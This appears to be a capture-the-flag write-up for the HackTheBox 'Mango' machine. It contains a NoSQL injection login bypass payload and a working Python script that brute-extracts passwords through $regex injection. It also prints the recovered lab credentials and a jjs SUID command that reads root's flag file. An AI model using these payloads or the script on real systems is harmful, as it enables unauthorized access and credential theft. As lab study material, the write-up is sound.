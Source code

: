 # Mango

## Preparation

Added IP to /etc/hosts as "mango.htb"

## Recon

Starting with nmap
```
nmap -sV -sC mango.htb
```

### HTTPS (443/TCP)

Domain name in cert - staging-order.mango.htb
Image refernce in source code - https://github.com/MangoDevelopers/mango-new-logo/raw/master/NewMango.jpg
	MangoDB?
Search Engine Screen
	No reflective input
	Googling "MongoDB SQL Injection" brings up a lot of results as NoSQL, testing those

It's using virtual host routing, put staging-order.mango.htb in /etc/hosts and visiting it returns a login screen

Auth bypass from PayloadAllTheThings worked: username[$ne]=toto&password[$ne]=toto

email found: admin@mango.htb

I can enumerate users by using username=toto&password[$ne]=toto and replacing the username value, if it returns 302 then the username is valid

## Cracking the Perimeter

Used cewl to build a wordlist of users, added the following
```
admin
Mango
mango
Sweet
sweet
Juicy
juicy
Admin
admin
admin.htb
```
```
import json, requests, urllib3, string, urllib

host = str("http://staging-order.mango.htb/index.php")
header = {'content-type': 'application/x-www-form-urlencoded'}
userlist = []
passlenlist = []
passlist = []
chars = string.ascii_letters + string.digits + string.punctuation
users = open('users.txt','r')

for user in users:
	user = user.rstrip()
	payload = str("username=%s&password[$ne]=admin&login=login" % user)
	r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
	if r.status_code == 302:
		print(str("Found user: %s" % user))
		userlist.append(user)

for user in userlist:
	for i in range(1,64):
		payload = str("username=%s&password[$regex]=^.{%s}&login=login" % (user,str(i)))
		r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
		if r.status_code == 200:
			print(str("%s's password is %s characters" % (user,i-1)))
			passlenlist.append(i-1)
			break

for user in userlist:
	password = str("")
	passwordlen = passlenlist[int(userlist.index(str(user)))]
	while int(len(password)) <= int(passwordlen):
		for c in chars:
			if c not in ['*','+','.','?','|','&']:
				payload = str("username=%s&password[$regex]=^%s&login=login" % (str(user),str(password + c)))
				r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
				print(str("I tried %s for %s" % (password + c, user)))
				if r.status_code == 302:
					password += c
				if int(len(password)) == int(passwordlen):
					passlist.append(password)
					continue

passlist = list(dict.fromkeys(passlist))
for i in range(0,len(userlist)):
	print(str("%s's password is %s" % (userlist[i],passlist[i])))
```

Users Found (case sensitve)
- admin
- mango

mango's password is `h3mXK8RhU~f{]f5H` and admin's password is `t9KcS3>!0B#2`

`ssh:mango:h3mXK8RhU~f{]f5H`
`local:admin:t9KcS3>!0B#2`

## Privilege Escalation

SUID on jjs, root owns, admin can run

`echo 'var BufferedReader = Java.type("java.io.BufferedReader");var FileReader = Java.type("java.io.FileReader");var br = new BufferedReader(new FileReader("/root/root.txt"));while ((line = br.readLine()) != null) { print(line); }' | jjs`
